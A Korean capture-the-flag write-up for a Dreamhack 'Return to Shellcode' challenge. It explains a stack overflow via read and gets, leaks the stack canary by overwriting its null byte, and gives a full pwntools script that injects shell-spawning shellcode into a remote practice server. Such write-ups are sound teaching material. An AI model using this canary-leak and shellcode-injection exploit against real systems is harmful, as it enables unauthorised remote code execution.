Return to Shellcode 라이트업
===================

<img width="587" height="266" alt="image" src="https://github.com/user-attachments/assets/afd97a65-b219-4add-ba97-f085270dcf9d" />

checksec을 이용해 보호기법을 먼저 파악해볼 수 있다.

### 취약점 탐색

#### 1. buf의 주소

```c
printf("Address of the buf: %p\n", buf);
printf("Distance between buf and $rbp: %ld\n",
        (char*)__builtin_frame_address(0) - buf);
```

#### 2. 스택 버퍼 오버플로우

```c
char buf[0x50];

read(0, buf, 0x100);   // 0x50 < 0x100
gets(buf);             // Unsafe function
```

코드를 보면 스택 버퍼인 buf에 총 두 번의 입력을 받는데 두 입력 모두에서 오버플로우가 발생한다는 것을 알 수 있다.


### 익스플로잇 시나리오

#### 1. 버퍼 주소 획득

프로세스가 시작되면 출력되는 Address of the buf:  메시지를 파싱하여 스택 버퍼(buf)의 주소 값을 얻을 수 있다. 이 주소는 페이로드의 반환값으로 사용할 수 있다.

#### 2. 스택 카나리 값 leak

* buf 값 80 + 카나리는 항상 맨 앞에 null이 포함된 8바이트 값
* read 함수의 입력값으로 89바이트를 입력하면 카나리 값의 맨 앞 부분인 null이 제거되면서 카나리 값을 출력


#### 3. 페이로드 전송 및 셸 획득

**페이로드 구성**
* 셸코드 + 패딩
* 카나리 값: 유출된 카나리 값을 그대로 넣어 카나리 검사를 우회
* EBP/RBP: 카나리 뒤에 위치한 스택 프레임 포인터(RBP)를 덮어쓰기 위해 8바이트 더미 값을 추가
* 리턴 주소: 마지막으로 buf의 시작 주소를 넣어서 함수가 종료될 때 셸코드로 실행 흐름이 이동하도록 만들기


### 익스플로잇 코드

```python
from pwn import *

def slog(name, addr):
  return success(": ".join([name, hex(addr)]))

context.arch = "amd64"
p = remote("host8.dreamhack.games", 13812)

p.recvuntil("Address of the buf: ")
buf = int(p.recv(14), 16)

print("buf: " + hex(buf))

payload = b"A"*0x59
p.sendafter("Input: ", payload)
p.recvuntil(payload)
canary = u64(b"\x00"+p.recv(7))

print("Canary: " + hex(canary))

shellcode = asm(shellcraft.sh())

payload = shellcode.ljust(0x58, b"A") + p64(canary) + b"B"*0x8 + p64(buf)

p.sendlineafter("Input: ", payload)
p.interactive()
```



### 실행 결과


<img width="587" height="142" alt="image" src="https://github.com/user-attachments/assets/6583a515-fbdf-4a2b-b910-b60d3df1035a" />

플래그 획득 확인 

